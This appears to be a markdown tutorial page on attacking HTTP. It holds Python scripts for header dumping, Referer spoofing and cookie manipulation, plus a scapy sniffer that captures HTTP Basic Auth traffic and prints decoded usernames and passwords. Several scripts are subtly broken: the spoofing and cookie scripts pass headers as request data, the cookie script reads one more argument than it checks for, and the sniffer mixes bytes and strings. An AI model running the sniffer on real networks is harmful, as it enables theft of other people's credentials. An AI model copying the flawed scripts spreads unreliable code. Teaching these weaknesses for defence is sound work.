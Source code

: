 # Attacks on HTTP

## Attack tree

```text
1 HTTP header dumping
2 Referer spoofing
3 Manipulation of cookies
4 Auth sniffing
```

## Examples

### HTTP header dumping

For HTTPS connection specify the keyword argument `verify=False`
to suppress the verification of the validity of the SSL certificate. This can for example be
handsome for servers that use self-signed certificates.

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 2:
    print(sys.argv[0] + ": <url>")
    sys.exit(1)

r = requests.get(sys.argv[1])

for field, value in r.headers.items():
    print(field + ": " + value)
```

### Referer spoofing

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 2:
    print(sys.argv[0] + ": <url>")
    sys.exit(1)

headers = {'Referer': 'http://www.target.com'}
r = requests.get(sys.argv[1], data=headers)

print(r.content)
```

### Manipulation of cookies

```python
#!/usr/bin/python3

import sys
import requests

if len(sys.argv) < 3:
    print(sys.argv[0] + ": <url> <key> <value>")
    sys.exit(1)

headers = {'Cookie': sys.argv[2] + '=' + sys.argv[3]}
r = requests.get(sys.argv[1], data=headers)

print(r.content)
```

### Auth sniffing

```python
#!/usr/bin/python3

import re
from base64 import b64decode
from scapy.all import sniff

dev = "wlan0"

def handle_packet(packet):
    tcp = packet.getlayer("TCP")
    match = re.search(r"Authorization: Basic (.+)",
                      str(tcp.payload))

    if match:
        auth_str = b64decode(match.group(1))
        auth = auth_str.split(":")
        print("User: " + auth[0] + " Pass: " + auth[1])

sniff(iface=dev,
      store=0,
      filter="tcp and port 80",
      prn=handle_packet)
```

## Notes

### HTTP header dumping

Dump all HTTP header options received by a web server onto the screen.

### Referer spoofing

The `referer` contains the URL a request is originating from. Some web applications use it as a security
feature to figure out if the request comes from an internal network and if so, concludes that the user must therefore 
be logged in. Not a good idea as the referer header can freely be manipulated.

### Manipulation of cookies

HTTP is a stateless protocol. Every request sent by a client is independent of other requests. 
Developers can circumvent the stateless property of HTTP by pinning individual and hard-to-guess numbers to 
visitors in a `session id`. This id is then sent with every request to identify a client. It is valid for one session 
and deleted after a logout process or timeout. And it may get saved into a cookie. The complete cookie data gets sent
with every request belonging to the domain or host the cookie was generated from. And can be stolen and used. 
One does not expect them to get manipulated like HTTP headers, which makes them even more attractive. 

Cookies are sent with the help of the Cookie header and consist of key/value pairs
separated by a semicolon. The server uses the Set-Cookie header to ask the client to save
a cookie.

Some cookies are only valid for the current session and some until a
specific time unit like one day. If no `Expires` option was specified, the cookie is a session
cookie and gets restored after reopening the browser and restoring old sessions. 
If the word `Secure` appears in the cookie data this means that the cookie should only be sent over
HTTPS connections. This does not make it any more secure against manipulation.

### Auth sniffing

Most HTTP authentications are running in Basic mode. The login data is transferred in plaintext when selecting 
this method It may look like encrypted data, but it is only encoded with Base64 before it is sent over
the net.

In the payload search for the string `Authorization: Basic` and cut the following Base64 string
with the help of a regular expression. If this was successful, decode the string and split
by the colon into username and password. That is all it takes to circumvent `HTTP-Basic-Auth`.

